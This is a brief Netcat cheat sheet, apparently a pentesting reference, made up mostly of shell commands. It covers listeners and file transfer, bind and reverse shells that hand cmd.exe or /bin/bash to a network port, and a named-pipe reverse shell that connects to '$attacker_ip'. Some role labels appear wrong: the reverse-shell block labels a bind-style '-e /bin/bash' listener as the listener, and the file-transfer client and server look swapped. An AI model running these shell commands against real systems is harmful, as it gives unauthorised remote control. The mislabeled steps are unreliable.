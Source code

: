 # Netcat Cheatsheet

## Useful commands and context

Interact with application:
```bash
nc -nv $IP $PORT
```
Listener:
```bash
nc -nlvp $PORT
```
File transfer (client):
```bash
nc -nlvp $PORT > $FILE
```
File transfer (server):
```bash
nc -nv $IP $PORT < $FILE_TO_SEND
```

Bind shells
```bash
nc -nlvp $PORT -e cmd.exe # Listener
nc -nv $IP $PORT
```

Reverse Shell
```bash
nc -nv $IP $PORT
nc -nlvp $PORT -e /bin/bash  # Listener
```

NC disabled -e oldschool [Ed Skoudis](https://twitter.com/edskoudis)
```bash
mknod backpipe p; nc $attacker_ip $port 0<backpipe | /bin/bash 1>backpipe
```


## -e
Kali linux has nc compiled with the flag: `-DGAPING_SECURITY_HOLE` with enabled -e option **MOST** modern Linux/BSD system **DON'T SUPPORT** -e. This option can redirect the input, output, and error messages of an executable to a TCP/UDP port rather than the default console.

## Flags
-n	skip DNS name resolution
-v	verbosity
-l	listener
-p	port